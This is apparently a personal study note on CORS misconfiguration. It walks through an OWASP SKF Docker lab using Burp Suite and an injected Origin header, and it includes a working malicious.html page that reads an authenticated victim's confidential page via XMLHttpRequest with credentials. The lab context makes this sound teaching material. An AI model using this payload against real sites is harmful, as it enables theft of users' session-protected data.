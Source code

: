 ```yaml
---
tags:
  - vulnerabilty
  - "#cors"
---
```

# What is CORS?

**Cross-Origin Resource Sharing**

When are different domains, you can realize a request from other domain (imagine that you hacked a domain with an [XSS](../XSS/XSS.md) but you can point to other domain by this)

If a CORS is bad defined you can point from a external domain to other resources from other pages.

By default the policy of **same origin** in this case don't work because as third-party server is not allowed to bring resources 

The policy of CORS define **the third-party domains** that can realize request to take resources, only the domain that you define them, sometimes is bad defined and used wildcards ( like * ) 

---

# Exploiting

We are going to create a malicious page that have an script that allow to see all the content that the user is viewing, this is possible because the CORS is bad configured

## Intercept the request with burpsuite

The credential are admin:admin

![](../../Images/Pasted%20image%2020230905172127.png)


Intercept this with Burpsuite and send to Repeater, in the repeater send the request and in the response we can see the following headers:
````java
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
````

We can introduce a header in our request:

````bash
Origin: https.//test.com
````

Send the request and see if in the header Access-Control-Allow-Origin put the URL that indicate

![](../../Images/Pasted%20image%2020230905172517.png)

This allow to that domain to do requests.

This is a big failure, now as a malicious attacker I can control this

We can put some domain that is under our control, or put localhost

![](../../Images/Pasted%20image%2020230905172850.png)

The header `Access-Control-Allow-Credentials` --> Allow to do request that contain session cookie and more

Now we are going to create a file named malicious.html

````html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('GET', 'http://127.0.0.1:5000/confidential', true);
    req.withCredentials = true;
    req.send();

    function reqListener(){
            document.getElementById("stolenInfo").innerHTML = req.responseText;
        }

</script>

<center><h1>You have been Pwnd!!</h1></center>

<p id="stolenInfo"></p>
````

We are going to get all the source code of the website (that we can't see because we are not authenticated) an store in a variable

`req.onload = reqListener` --> When the user go to our website, what we want to happen (reqListener is a function)

`req.open .. true` --> Petition have to bee asynchronous (we wait that load all and do the petition)

`req.withCredentials` --> This is because the user is authenticated and we need the session cookie. We put this because we see in the response the `Access-Control-Allow-Credentials: true` header

`reqListener` --> In this function we want to display all that the user is viewing

The output of this is not beautiful, this is because we don't have the files like css, js, svg...

To resolve this, if you see the log in python server, you can see the resources:

![](../../Images/Pasted%20image%2020230905231139.png)

You can recreate that, create folders with mkdir, download the files (with wget) and put them in their correspondent folder 

---
# Labs

Build the image:

> sudo docker pull blabla1337/owasp-skf-lab:cors

To launch the image use:

````bash
sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:cors
````


